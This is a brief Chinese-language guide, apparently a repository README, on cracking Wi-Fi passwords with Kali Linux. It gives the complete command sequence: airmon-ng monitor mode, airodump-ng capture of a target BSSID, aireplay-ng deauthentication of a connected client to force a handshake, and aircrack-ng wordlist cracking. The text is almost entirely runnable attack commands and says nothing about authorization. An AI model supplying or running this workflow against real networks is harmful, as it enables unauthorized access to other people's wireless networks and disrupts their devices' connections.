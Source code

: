 ### Kali 渗透WIFI

## 主要功能

* **获取可见网络内的wifi密码**： 暴力破解

安装Kali Linux 准备网卡，如果是虚拟机安装则需要额外的USB无线网卡挂载到虚拟机

#### 查看网卡信息
~~~
airmon-ng
~~~

#### 监听网卡	
~~~
airmon-ng start wlan0
~~~

#### 扫描wifi信号
~~~
airodump-ng wlan0
~~~

#### 找出要监听的热点名称，获取ssid地址与channel
~~~
airodump-ng -w home -c 1 --bssid 00:0F:32:B0:99:2C wlan0
~~~

#### 出现连接后打开新窗口执行以下命令
~~~
aireplay-ng --deauth 11 -a router_mac -c target_mac wlan0mon
~~~
等命令执行完切回到原来窗口，看frames 如果变为0则按 ctrl +c 强行退出

#### 拷贝出 cap 文件到mac上面执行
~~~
aircrack-ng -w simple.txt home-01.cap
~~~






















